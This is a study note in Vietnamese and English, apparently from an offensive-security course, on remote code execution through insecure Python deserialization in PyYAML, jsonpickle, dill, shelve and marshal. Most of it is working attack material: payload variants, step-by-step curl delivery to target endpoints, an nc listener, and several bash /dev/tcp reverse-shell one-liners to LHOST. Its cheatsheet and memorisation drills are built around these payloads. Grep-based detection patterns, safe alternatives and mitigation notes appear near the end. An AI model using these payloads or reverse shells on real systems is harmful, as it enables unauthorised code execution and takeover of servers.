

> **Prerequisites**: [[16-python-pickle-rce|16. Python Pickle & __reduce__ RCE]]
> **Objectives**:
> - Exploit `yaml.load()` qua `!!python/object/apply` directive
> - Exploit `jsonpickle` qua `py/object/apply` key
> - Nhận diện `dill`, `shelve`, `marshal` là hidden pickle sinks
> - Biết safe alternatives cho mỗi library

---

## Điều kiện khai thác

> [!note] Điều kiện chung
> - Application dùng unsafe deserialization API với user-controlled input
> - PyYAML: `yaml.load(data)` hoặc `yaml.load(data, Loader=yaml.Loader)` — **không phải** `yaml.safe_load()`
> - jsonpickle: `jsonpickle.decode(data)` với attacker-controlled JSON
> - dill/shelve: `dill.loads()`, `shelve.open()` với attacker-writable paths

---

## 1 — PyYAML: yaml.load() RCE

### Cơ Chế

YAML hỗ trợ "tags" để chỉ định type khi deserialize. PyYAML `FullLoader` (mặc định trước v5.1) và `Loader` thực thi Python code qua tag `!!python/object/apply`:

```yaml
!!python/object/apply:os.system
- "id"
```

Khi `yaml.load()` parse đoạn này → gọi `os.system("id")` → RCE.

### Payload Variants

```python
import yaml

# Payload 1: os.system
payload1 = "!!python/object/apply:os.system ['id']"

# Payload 2: subprocess.check_output
payload2 = """!!python/object/apply:subprocess.check_output
- [id]"""

# Payload 3: Multi-line reverse shell
payload3 = """!!python/object/apply:os.system
- "bash -c 'bash -i >& /dev/tcp/LHOST/PORT 0>&1'"
"""

# Payload 4: builtins exec (bypass some filters)
payload4 = """!!python/object/apply:builtins.exec
- "import os; os.system('id')"
"""

# Test locally
yaml.load(payload1, Loader=yaml.FullLoader)  # Triggers RCE
```

### Quy Trình Tấn Công

```bash
# Bước 1: Xác nhận yaml.load() trong POST body / config file input
# Tìm endpoint nhận YAML input (config upload, CI/CD pipeline, API)

# Bước 2: Craft payload
cat > /tmp/yaml_payload.yml << 'EOF'
!!python/object/apply:os.system
- "sleep 5"
EOF

# Bước 3: Deliver
curl -s http://TARGET/api/config \
  -H "Content-Type: application/yaml" \
  --data-binary @/tmp/yaml_payload.yml

# Bước 4: Reverse shell
cat > /tmp/yaml_shell.yml << 'EOF'
!!python/object/apply:os.system
- "bash -c 'bash -i >& /dev/tcp/LHOST/4444 0>&1'"
EOF
```

### Detection Signature

```bash
# yaml.load() vulnerable patterns:
grep -r "yaml\.load(" app/ | grep -v "safe_load\|Loader=yaml\.Safe"
# Also check:
grep -r "Loader=yaml\.Loader\|Loader=yaml\.FullLoader\|Loader=yaml\.UnsafeLoader" app/
```

### Safe Alternative

```python
# SAFE: yaml.safe_load() — blocks Python tag execution
import yaml
data = yaml.safe_load(user_input)  # Only basic types: str, int, list, dict

# SAFE: explicit SafeLoader
data = yaml.load(user_input, Loader=yaml.SafeLoader)
```

---

## 2 — jsonpickle: JSON-based Pickle

### Cơ Chế

jsonpickle serialize Python objects sang JSON với special keys như `py/object`, `py/reduce`, `py/object/apply`. Khi `decode()`, nó reconstruct objects — bao gồm cả arbitrary callable execution:

```json
{"py/reduce": [{"py/function": "os.system"}, {"py/tuple": ["id"]}]}
```

### Payload Variants

```python
import jsonpickle, json

# Payload 1: py/reduce (direct)
payload1 = json.dumps({
    "py/reduce": [
        {"py/function": "os.system"},
        {"py/tuple": ["id"]}
    ]
})

# Payload 2: py/object/apply
payload2 = json.dumps({
    "py/object/apply": "os.system",
    "args": ["id"]
})

# Payload 3: subprocess
payload3 = json.dumps({
    "py/reduce": [
        {"py/function": "subprocess.check_output"},
        {"py/tuple": [["id"]]}
    ]
})

# Test
jsonpickle.decode(payload1)  # os.system("id") called
```

### Quy Trình Tấn Công

```bash
# Xác nhận: tìm "py/object" key trong JSON responses
curl http://TARGET/api/session | python3 -m json.tool | grep "py/"

# Craft reverse shell payload
python3 -c "
import json
payload = json.dumps({
    'py/reduce': [
        {'py/function': 'os.system'},
        {'py/tuple': ['bash -c \"bash -i >& /dev/tcp/LHOST/4444 0>&1\"']}
    ]
})
print(payload)
" > /tmp/jp_payload.json

nc -lvnp 4444 &
curl http://TARGET/api/restore \
  -H "Content-Type: application/json" \
  -d @/tmp/jp_payload.json
```

### Safe Alternative

```python
# jsonpickle không có safe mode built-in
# Dùng json.loads() nếu chỉ cần plain data
import json
data = json.loads(user_input)  # No object reconstruction
```

---

## 3 — dill, shelve, marshal

### dill — Extended Pickle

```python
import dill, os, base64

# dill.loads() = pickle.loads() với nhiều object types hơn
# Pickle payload work hoàn toàn với dill

class RCE:
    def __reduce__(self): return (os.system, ("id",))

payload = base64.b64encode(dill.dumps(RCE())).decode()
# Deliver giống hệt pickle payload

# Detect: tìm dill.loads() trong source
grep -r "dill\.loads\|dill\.load(" app/
```

### shelve — Key-Value Store Over Pickle

```python
# shelve dùng pickle internally để serialize values
# Vulnerable khi attacker có write access đến shelve file path

import shelve
db = shelve.open("/tmp/userdata")  # Reads/writes pickle internally
value = db["user_key"]  # Calls pickle.loads() → if file is attacker-controlled → RCE

# Attack: write malicious shelve file
import shelve, pickle, os

class RCE:
    def __reduce__(self): return (os.system, ("id",))

db = shelve.open("/tmp/attack_shelf")
db["__class__"] = RCE()  # Store malicious object
db.close()
# When target app opens this file and reads keys → RCE
```

### marshal — Python Bytecode

```python
# marshal serialize Python code objects — extremely dangerous
import marshal, types

# Create malicious code object
code = compile("import os; os.system('id')", "<string>", "exec")
payload = marshal.dumps(code)

# If application does:
# code_obj = marshal.loads(user_data)
# exec(code_obj) → RCE

# Detect:
grep -r "marshal\.loads" app/
```

---

## Cây quyết định



---

## Command Cheatsheet

**PyYAML**

```bash
# Detect unsafe yaml.load()
grep -rn "yaml\.load(" . | grep -v "safe_load\|SafeLoader"

# Payload — sleep confirm
echo "!!python/object/apply:os.system ['sleep 5']" | \
  curl -s http://TARGET/config -H "Content-Type: application/yaml" --data-binary @-

# Reverse shell
echo "!!python/object/apply:os.system ['bash -c \"bash -i >& /dev/tcp/LHOST/PORT 0>&1\"']" | \
  curl -s http://TARGET/config -H "Content-Type: application/yaml" --data-binary @-
```

**jsonpickle**

```python
import json

# Sleep confirm
sleep_payload = json.dumps({
    "py/reduce": [{"py/function": "os.system"}, {"py/tuple": ["sleep 5"]}]
})

# Reverse shell
shell_payload = json.dumps({
    "py/reduce": [
        {"py/function": "os.system"},
        {"py/tuple": ["bash -c 'bash -i >& /dev/tcp/LHOST/PORT 0>&1'"]}
    ]
})
```

**dill**

```python
import dill, os, base64
class R:
    def __reduce__(self): return (os.system, ("sleep 5",))
print(base64.b64encode(dill.dumps(R())).decode())
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày.

**Drill 1 — PyYAML payload từ memory**
Mục tiêu: viết yaml payload không cần tra cứu.

```yaml
!!python/object/apply:os.system
- "sleep 5"
```

Luyện cho đến khi: viết 2 dòng này trong < 10 giây.

**Drill 2 — Phân biệt safe vs unsafe API**

```
yaml.load()          → UNSAFE
yaml.safe_load()     → SAFE
jsonpickle.decode()  → UNSAFE
json.loads()         → SAFE
dill.loads()         → UNSAFE
pickle.loads()       → UNSAFE
```

Luyện cho đến khi: đọc danh sách này ra mà không nhìn notes.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **PyYAML**: `yaml.load()` call với user input → code audit finding
> **jsonpickle**: `py/` keys trong JSON request body → attacker probe
> **Process**: Python process spawn subprocess sau khi nhận YAML/JSON input
> **Log**: `yaml.constructor.ConstructorError` → attacker đang thử payloads

> [!note] Mitigation
> - PyYAML: **luôn dùng `yaml.safe_load()`** — không bao giờ `yaml.load()` với untrusted input
> - jsonpickle: không dùng `jsonpickle.decode()` với external JSON — dùng `json.loads()` thuần
> - dill: không expose `dill.loads()` endpoint — chỉ dùng nội bộ
> - shelve: không để user control file path của shelve database

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| PortSwigger | **Insecure deserialization — Python** | YAML và pickle scenarios |
| Custom | **Vulnerable Django app** | yaml.load() in configuration upload |
| HTB | **Canape** (Retired) | Python serialization attack chain |
| CTF | **Various web challs** | jsonpickle thường xuất hiện trong CTF |
